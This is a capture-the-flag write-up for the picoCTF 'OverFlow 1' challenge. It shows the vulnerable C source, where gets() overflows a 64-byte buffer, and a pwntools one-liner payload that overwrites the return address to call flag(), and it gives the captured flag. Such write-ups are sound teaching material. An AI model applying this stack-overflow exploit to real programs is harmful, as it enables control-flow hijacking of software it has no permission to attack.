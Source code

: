 # OverFlow 1 

Points : 150

# Question

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](vuln.c).

# Hint 

Take control that return address.
Make sure your address is in Little Endian.

# Solution

By examin the source code we can see that :

```C 
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {						<------- we have this flag function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];					<------- we get buffer size 64
  gets(buf);						<------- the program read our input using gets which is vulnerable to overflow

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();						<------- vuln get call
  return 0;
}
```

the program never call "flag" function so we need to make this happend !
as we know gets is vulnerable to buffer overflow , so if we overflow the stack and change the return adress to "flag" function address then she will get call and print the flag.

our payload need to look like this:

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE(EBP)+NEW_RETURN_ADDRESS```

first let's get "flag" function address using gdb

![](overflow1.png)

we can see that the address is "0x080485e6"
so now we can use python with pwn tools and run the exploit ```python -c "from pwn import *; print 'A'*(64+8)+p32(0x080485e6)" | ./vuln```

![](overflow2.png)


# Flag
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

